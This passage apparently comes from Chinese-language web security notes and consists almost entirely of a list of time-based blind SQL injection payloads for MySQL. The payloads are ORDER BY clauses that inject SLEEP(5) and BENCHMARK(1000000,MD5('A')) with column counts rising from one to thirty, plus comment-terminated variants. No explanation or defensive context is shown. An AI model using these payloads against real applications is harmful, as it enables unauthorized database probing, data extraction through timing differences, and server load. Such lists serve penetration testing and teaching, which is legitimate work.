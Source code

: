 ![image.png](../../_img/02-Web安全/01-基础知识/1664343454931-c9831e4e-8759-4415-bfb8-e95c9d9b55dd.png)

**类似的SQL注入-Payload有：**
```
ORDER BY SLEEP(5)
 ORDER BY 1,SLEEP(5)
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A'))
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 ORDER BY SLEEP(5)#
 ORDER BY 1,SLEEP(5)#
```